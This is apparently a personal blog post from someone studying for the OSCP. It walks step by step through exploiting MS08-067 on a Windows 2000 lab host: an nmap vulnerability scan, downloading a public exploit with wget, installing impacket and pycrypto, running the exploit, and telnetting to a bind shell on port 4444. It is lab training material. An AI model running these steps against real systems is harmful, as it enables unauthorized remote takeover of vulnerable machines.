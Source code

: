 ```yaml
---
published: true
layout: post
title: "Exploiting the MS08-067 vulnerability without Metasploit"
---
```


I'm currently enrolled in Offensive Security's Penetration Testing with Kali Linux course with the intention of obtaining the OSCP Certification.  During the OSCP Certification Exam the use of Metasploit is limited, therefore I am not using it when exploiting the servers in the OSCP lab environment.  
Here are the steps I took to perform my first exploit - MS08-067 - without the use of Metasploit.

I targeted the Netbios service by using Nmap's smb-check-vulns script on a Windows 2000 Server

	nmap -v -p 139, 445 --script=smb-check-vulns --script-args=unsafe=1 192.168.31.205

Nmap returned the following

![_config.yml]({{ site.baseurl }}/images/nmap-ms08067-vulnerable.png)

Searched exploit-db for an exploit and found the following

![_config.yml]({{ site.baseurl }}/images/ms08067-exploitdb.png)
    
    cd ~/Projects/oscp/exploits
    wget https://www.exploit-db.com/download/7132 -O ms08-067.py
    chown 755 ms08-067.py

The exploit code states that impacket and pycrypto are required.  Download impacket and pycrypto.

	cd /opt/
    wget https://pypi.python.org/packages/source/i/impacket/impacket-0.9.13.tar.gz
    wget https://pypi.python.org/packages/source/p/pycrypto/pycrypto-2.6.1.tar.gz
    tar -xzf impacket-0.9.13.tar.gz
    tar -xzf pycrypto-2.6.1.tar.gz
 
Need python dev tools installed in order to build pycrypto

	apt-get install python-dev
    
Change the permissions on the impacket folder and run setup

    cd impacket-0.9.13/
	./setup.py

Change the permissions on the pycrypto folder and run setup

	cd ..
    cd pycrypto-2.6.1/ 
	python setup.py build
    python setup.py install
    
Change the port # in the exploit code to the port # reported as vulnerable by Nmap earlier (i'm using Sublime Text)

    cd ~/Projects/oscp/exploits
![_config.yml]({{ site.baseurl }}/images/ms08067-exploitcodeportnumber.png)

Execute the exploit with the argument of 1 for Windows 2000

    ./ms08-067.py 192.168.31.205 1
    
Output of exploit states to connect to victim server using telnet on port 4444

![_config.yml]({{ site.baseurl }}/images/ms08067-payload-sent.png)

Telnet to victim server

    telnet 192.168.31.205 4444
    
Shell obtained

![_config.yml]({{ site.baseurl }}/images/ms08067-shellobtained.png)




